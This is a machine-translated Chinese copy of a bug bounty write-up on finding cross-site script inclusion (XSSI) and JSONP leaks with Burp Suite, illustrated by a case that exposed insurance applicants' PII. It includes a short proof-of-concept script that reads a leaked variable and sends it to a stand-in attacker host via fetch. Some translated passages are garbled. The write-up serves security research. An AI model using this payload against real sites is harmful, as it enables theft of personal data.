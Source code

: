 # 轻松找到跨站点脚本包含(XSSI)和 JSONP 以获取 bug 赏金

> 原文：<https://infosecwriteups.com/effortlessly-finding-cross-site-script-inclusion-xssi-jsonp-for-bug-bounty-38ae0b9e5c8a?source=collection_archive---------1----------------------->

嘿，大家好，我最近报告了一个私人程序的 XSSI 错误，该程序向最初的报告者支付了$̶3̶0̶0̶(800 美元，2020 年 2 月 13 日更新)。我 b̶e̶l̶i̶e̶v̶e̶̶t̶h̶e̶̶r̶e̶p̶o̶r̶t̶e̶r̶̶i̶s̶̶u̶n̶d̶e̶r̶p̶a̶i̶d̶̶s̶i̶n̶c̶e̶̶s̶e̶r̶i̶o̶u̶s̶̶i̶n̶f̶o̶r̶m̶a̶t̶i̶o̶n̶̶w̶a̶s̶̶l̶e̶a̶k̶e̶d̶̶̶\̶_̶(̶ツ̶)̶_̶/̶̶,̶̶&̶决定分享我遵循的方法。

**TL；博士(同时阅读底部的重要注释)**

![](img/85a06641ed8e8b6f00dff00e0f5a179b.png)

**小抄什么的 idk lol**

很好的读物，以防你是 XSSI/JSONP 的新手:
**XSSI:**`[**https://www.scip.ch/en/?labs.20160414**](https://www.scip.ch/en/?labs.20160414)`**JSONP:**`[**https://www.sjoerdlangkemper.nl/2019/01/02/jsonp**](https://www.sjoerdlangkemper.nl/2019/01/02/jsonp/)`

**我的方法论**:

*   在搜索了网站(手动和自动)后，我通过 **MIME** 类型过滤了 *Burp suite* 中的结果，然后浏览了“ **script** 类型的响应以获取敏感信息。

![](img/042a86928baf8e0734a6d2f5c091acf1.png)

**按 MIME 类型过滤**

*   我找到了一个 JS 文件，其中包含了我在签署保险单时填写的所有信息。这包括 SSN，有限的病史，签证信息，姓名，电话号码，出生日期，地址等。 ***Yikes*** 。
*   我查看了 JS 文件的 HTTP GET 请求，以确保它**不需要 **CORS 触发**头，比如:
    授权、X-API-KEY、X-CSRF-令牌、X-等等**
*   在这个阶段，如果**没有**的 CORS 头球，那么**的攻击就会失败**，**除非**我也发现了一个 CORS 问题。

在这种情况下，不需要特殊的头，所以我可以用脚本标记将 JS 文件包含在 web 页面上，并将其发送到任何泄漏一些严重 PII 的服务器，POC 类似于:

`**<script src="https://target.com/vuln.js">
</script>
<script defer>
// var_name is a variable in vuln.js holding sensitive information
console.log(var_name);
// sending information to an attacker controlled server
fetch("https://evil.com/stealInfo?info="+var_name);
</script>**`

通过在所有返回敏感信息的路径上附加 callback=some_function，jsonp=blah 这样的参数，可以使用相同的方法来查找 JSONP 回调。

**重要提示:**

*   有时您需要多个参数来触发 JSONP 响应。比如:【http://target.com】T2？回调=测试→ **无 JSONP
    http://target.com？ **type=jsonp &回调=测试** **→返回 JSONP****
*   如果响应有**Content-Type:application/JSON**但是主体有 JSONP/javascript，并且响应中的**X-Content-Type-Options:nosniff**头是**而不是**，那么漏洞利用仍然**起作用**。
*   对于 **JSONP，不同的**回调参数可能在**不同的端点上工作，甚至在同一个网站上。
    举例:** https://target.com/profile_info?**回调**=测试→ **无 JSONP**
    https://target.com/profile_info?**JSONP =**测试→ **返回 JSONP**
    **但是，在同一站点的不同路径上:** https://target.com/**account _ info**？**JSONP**= test→**no JSONP**https://target.com/**account _ info**？**jsoncallback**= test→**returns****JSONP**

感谢反馈和建设性的批评，感谢阅读！

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)